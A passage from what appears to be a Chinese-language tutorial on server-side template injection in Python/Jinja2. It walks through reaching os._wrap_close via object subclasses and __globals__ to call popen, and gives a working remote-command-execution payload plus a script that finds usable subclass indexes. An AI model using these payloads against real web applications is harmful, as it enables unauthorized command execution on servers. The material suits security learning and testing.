 ![image-20220723234404088](https://tuchuang.huamang.xyz/img/image-20220723234404088.png)

那么就可以供我们挑选了，我们找到可以利用的类，选中来利用，例如这里的<class 'os._wrap_close'>

不同版本的python可能会在不用的位置，我的环境里是`"".__class__.__bases__[0].__subclasses__()[133]`



![image-20220723235402485](https://tuchuang.huamang.xyz/img/image-20220723235402485.png)

这里就到了下一个点，`.init.globals`，这个init用来初始化类，globals用来全局查找所有方法和变量及参数

![image-20220723235527394](https://tuchuang.huamang.xyz/img/image-20220723235527394.png)

可以发现，这里是有popen的，这个就可以命令执行了



![image-20220723235628539](https://tuchuang.huamang.xyz/img/image-20220723235628539.png)

这样就可以rce了

```
{{"".__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('ls').read()}}
```



![image-20220723235742273](https://tuchuang.huamang.xyz/img/image-20220723235742273.png)

当然这只是其中一个方法，在获取到了object后，能走的路非常多，获取object的方法也很多

比如`__mro__`，这个就可以用来获取基类，他会返回一个类的调用顺序，其中就必定会有object

![image-20220724001442014](https://tuchuang.huamang.xyz/img/image-20220724001442014.png)



# 利用

## 找利用链

这里我们可以用脚本来跑出我们想要的东西

本地

```python
search = 'popen'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```
